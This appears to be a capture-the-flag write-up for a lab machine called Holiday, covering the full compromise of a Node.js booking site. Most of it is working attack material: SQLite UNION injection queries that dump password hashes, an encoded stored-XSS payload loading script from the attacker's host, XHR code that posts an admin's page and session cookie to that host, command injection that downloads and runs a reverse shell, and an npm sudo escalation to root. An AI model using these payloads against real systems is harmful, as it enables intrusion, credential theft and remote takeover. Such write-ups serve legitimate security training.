

# Holiday

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.29.106               
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-17 09:07 EDT
Nmap scan report for 10.129.29.106
Host is up (0.0072s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
```

Detailed scan:

```
$ nmap -p 8000 -sC -sV --min-rate 3000 10.129.29.106   
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-17 09:07 EDT
Nmap scan report for 10.129.29.106
Host is up (0.0077s latency).

PORT     STATE SERVICE VERSION
8000/tcp open  http    Node.js Express framework
|_http-title: Error
```

Added `holiday.htb` to the `/etc/hosts` file as per normal practice.

### Web Enum --> Login SQLI

The website just shows a hexagon:


Oddly, both `feroxbuster` and `gobuster` returned nothing useful. Only `dirb` returned anything useful.

```
$ dirb http://10.129.29.106:8000/ /usr/share/seclists/Discovery/Web-Content/common.txt   

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Mar 17 11:37:05 2024
URL_BASE: http://10.129.29.106:8000/
WORDLIST_FILES: /usr/share/seclists/Discovery/Web-Content/common.txt

-----------------

GENERATED WORDS: 4722                                                          

---- Scanning URL: http://10.129.29.106:8000/ ----
+ http://10.129.29.106:8000/ADMIN (CODE:302|SIZE:28)                                       
+ http://10.129.29.106:8000/Admin (CODE:302|SIZE:28)                                       
+ http://10.129.29.106:8000/Login (CODE:200|SIZE:1171)                                     
+ http://10.129.29.106:8000/admin (CODE:302|SIZE:28)                                       
+ http://10.129.29.106:8000/agent (CODE:302|SIZE:28)                                       
+ http://10.129.29.106:8000/css (CODE:301|SIZE:165)                                        
+ http://10.129.29.106:8000/img (CODE:301|SIZE:165)                                        
+ http://10.129.29.106:8000/js (CODE:301|SIZE:163)                                         
+ http://10.129.29.106:8000/login (CODE:200|SIZE:1171)                                     
+ http://10.129.29.106:8000/logout (CODE:302|SIZE:28)
```

Visiting `/admin` redirects me to the `/login` page:


Attempting to login with weak credentials results in this error:


When testing for basic SQLI, I noticed that using double quotes results in an error:


Interesting. I tested the username field a bit more, I found out that using `"OR "1" ="1` results in a different error:


Now `RickA` is the user. The same payload doesn't work with the `password` field. This probably means that only the username is vulnerable to SQL Injection.

### SQLI --> Login Creds

Using the fact that there are different errors on the page for valid and invalid queries, I attempt to exfiltrate the password.

`UNION` injection can be used. First, I have to figure out the syntax to 'end' the first query and return no error, since using `"` alone was causing an error.

I tried some of het entry point detection payloads from Hacktricks, and found that `"))` triggered no error.


From here, I can start the `UNION` injections. I tested the number of columns manually, and found that there were 4:


From here, I need to find out what database was this thing running, and which column actually returned strings. 

Using `@@version` for all columns resulted in an error, so its not MySQL or MSSQL. Using `version()` failed too, so its not PostgreSQL. Using `sqlite_version()` in column 2 returned 'Incorrect Password', thus the database is SQLite.

The most interesting part was the fact that the result was auto-filled into the `username` portion:


Using this, I can easily find out the table names within this database. 

```sql
"))UNION SELECT 1,group_concat(tbl_name),3,4 FROM sqlite_master --
```

This produced `users,sqlite_sequence,notes,bookings,sessions,sessions`. Now, I can enumerate the columns in `users`. 

```sql
"))UNION SELECT 1,group_concat(sql),3,4 FROM sqlite_master WHERE type!="meta" AND sql NOT NULL AND name="users"--
```

This produces `CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,active TINYINT(1))` as the output, meaning there's a password column. Extracting the password can be done using `"))UNION SELECT 1,group_concat(password),3,4 FROM users--`.

This produces the hash:


This hash can be cracked using Crackstation:


And with that, I can login to the interface:


### XSS --> Administrator

In each of the booking details, there was an 'Add Note' function:


This was being viewed by an admin, which means XSS! I tried this payload:

```js
<script src="http://10.10.14.18/cookie.js"/>
```

The JS file only had this line:

```js
fetch('http://10.10.14.18?cookie=' + document.cookie);
```

However, I never received a callback, and that's when I realised it was not reflected XSS, but rather stored:


The payload is reflected directly on screen. I copied and pasted a TON of [payloads](https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec), then took a look at how the filtering worked. 

I noticed that it kept `` tags in tact:


It spaced out the `javascript`, but it also kept ` characters in tact.

I also noticed this part here:


If the `javascript` link was within a ` character, it was left alone. The original payload was:

```html

```

So it removed spaces, and the entire XSS portion there, thus my final payload cannot contain spaces. The filter also removed all `'` characters. 

This payload made it past the string filter but I don't think it works since it doesn't use script tags or anything:

```html
 
```

I eventually gave up finding this payload, and I checked the solution. The actual payload was:

```html
<script>javascript:alert(1)</script>"/>
```

The final payload did not allow me to have spaces in it, so the actual code executed has to use the `eval(String.fromCharCode)` method.

For this, I can use `document.write` to insert HTML into the DOM since I'm using `eval`.

```python
>>> payload = '''document.write('<script src="http://10.10.14.18/evil.js"></script>');'''
>>> ','.join([str(ord(c)) for c in payload])
'100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,56,47,101,118,105,108,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59'
```

The final payload would thus be:

```html
<script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,56,47,101,118,105,108,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>" />
```

This finally works and I got callback:


From here, I just need to figure out how to get the cookie out. The cookie is set to `HttpOnly`, meaning `doucment.cookie` and what not will fail. I attempted to steal the page contents using this:

```js
var url = "http://holiday.htb:8000/vac/28b9356a-fdb3-4ad9-84ac-62b255ef69dd";
var attacker = "http://10.10.14.18:8000/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
    var exfilxhr = new XMLHttpRequest();
    exfilxhr.open('POST', attacker, false);
    exfilxhr.send(xhr.responseText);
  }
};
xhr.open('GET', url, true);
xhr.send(null);
```

The above payload doesn't work, but I can tweak it a bit to steal page contents:

```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65', false);
xhr.send();
var exfil = new XMLHttpRequest();
exfil.open('POST', 'http://10.10.14.18:8000/exfil', true);
exfil.setRequestHeader('Content-Type', 'text/plain');
exfil.send(encodeURIComponent(xhr.responseText));
```

This works in sending me the page contents:


Within the page content is the cookie I need:


When this cookie used, I get a new 'Admin' panel:


### Admin Panel RCE

Earlier, I found a `/admin` panel, and now I can view it:


Viewing the page source reveals it sends requests to these endpoints:


Visiting the `/admin/export` directory results in an error:


Attempting to tamper with the `table` parameter results in this error:


It seems to allow `&` characters, and using that results in RCE:



The only issue is that no `.` characters are allowed, meaning I have specify my IP address in decimal instead of the octal notation. 


`10.10.14.18=168431122`. Here are the commands I executed to get a shell:

```bash
wget 168431122/rev
bash rev
```


## Privilege Escalation

### Sudo Npm --> Root

This user had `sudo` privileges:

```
algernon@holiday:~$ sudo -l
Matching Defaults entries for algernon on holiday:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User algernon may run the following commands on holiday:
    (ALL) NOPASSWD: /usr/bin/npm i *
```

This can be exploited using the script on GTFOBins:

```bash
echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
sudo /usr/bin/npm i --unsafe-perm
```


Rooted! Super hard start.

## Code Vulnerabilities

I took a look at the vulnerabilities for both the SQL Injection, XSS and RCE within the `/home/algernon/app/setup` directory.

### XSS

Here's the XSS code:

```js
var driver = require('node-phantom-simple');                                                 
var async = require('async');                                                                        
module.exports = function(scope, callback) {                          
  var isRunning = false;                                                  
  setInterval(function() {                                            
    if (isRunning) return;                                                     
    isRunning = true;                                        
    driver.create({ path: require('phantomjs').path }, function (err, browser) {
      return browser.createPage(function (err, page) {
        return page.open("http://localhost:8000/login", function (err,status) {
          return page.evaluate(function() {
            document.getElementById('username').value = 'admin';
            document.getElementById('password').value = 'myvoiceismypassport';
            document.forms[0].submit();
          }, function(err, result) {
            setTimeout(function() {
              return page.evaluate(function() {
                var links = [].slice.call(document.getElementsByTagName('a')).map(function(item) { return item.getAttribute('href') });
                links = links.filter(function(item, index) { return links.indexOf(item) == index && item.indexOf('/admin/export') == -1 });
                return links;
              }, function (err, links) {
                async.eachSeries(links, function(link, callback) {
                  page.open('http://localhost:8000' + link, function(err, status) {
                    setTimeout(function() {
                      scope.db.get('SELECT id FROM bookings WHERE uuid = ?', [link.split('/')[2]], function(err, booking) {
                        scope.db.run('UPDATE notes SET approved = ? WHERE booking_id = ?', [true, booking.id], callback);
                      });
                    }, 1000);
                  });
                }, function() {
                  setTimeout(function() {
                    isRunning = false;
                    browser.exit();
                  }, 2000);
                });
              });
            }, 1000)
          });
        });
      });
    });
  }, 60000);

  return callback();
};
```

Logs in each time, and then calls `evaluate` to load the elements, thus allowing me to execute Javascript on this.

The XSS whitelist was within `router.js`:

```js
var xssFilter = new xss.FilterXSS({
  whiteList: {
    img: ['src']
  },
  onTagAttr: function (tag, name, value, isWhiteAttr) {
    if (name === 'src' && isWhiteAttr) return name + '=' + value.replace(/["' ]/g, '') + '';
    return null;
  }
});
```

Seems that it only allows ``, and it replaces certain characters with empty strings except for ` characters.

### SQL Injection

```js
scope.router.post('/login', function(req, res) {
    if (req.body.username == 'admin' && req.body.password == 'myvoiceismypassport') {
      req.session.username = 'admin';
      req.session.admin = true;
      res.redirect('/admin');
    } else {
      var query = 'SELECT id, username, password, active FROM users WHERE (active=1 AND (username = "' + req.body.username +'"))';
      var queryStart = +new Date();

      scope.db.get(query, function(err, row) {
        var queryEnd = +new Date();
        var queryTime = queryEnd - queryStart;
        if (err) return res.render('login.hbs', { internalError: err, publicError: 'Error Occurred', query: query, queryTime: queryTime });
        if (!row) return res.render('login.hbs', { publicError: 'Invalid User', query: query, queryTime: queryTime });
        if (row.password == crypto.createHash('md5').update(req.body.password).digest('hex')) {
          req.session.username = row.username;
          res.redirect('/agent');
        } else {
          res.render('login.hbs', { username: row.username, publicError: 'Incorrect Password', query: query, queryTime: queryTime });
        }
      });
    }
  });
```

Now I can see why `"))` was a valid entry point, and why `password` was not vulnerable.

### RCE

```js
scope.router.get('/admin/export', function(req, res) {
    console.log('Admin Export', req.query)
    if (!req.session.admin) return res.redirect('/login');
    var filteredTable = req.query.table.replace(/[^a-z0-9& \/]/g, '')
    if (filteredTable != req.query.table) return res.status(500).send('Invalid table name - only characters in the range of [a-z0-9&\\s\\/] are allowed');

    exec('sqlite3 hex.db SELECT\\ *\\ FROM\\ ' + filteredTable, function(err, stdout, stderr) {
      res.header('Cache-Control', 'private, no-cache, no-store, must-revalidate');
      res.header('Expires', '-1');
      res.header('Pragma', 'no-cache');
      res.attachment('export-' + req.query.table + '-' + (+new Date()));
      res.send(stdout);
    });
  });
```

The `/admin/export` directory passed the `table` parameter to `exec`, pretty self-explanatory. The regex filter was quite weak as well. 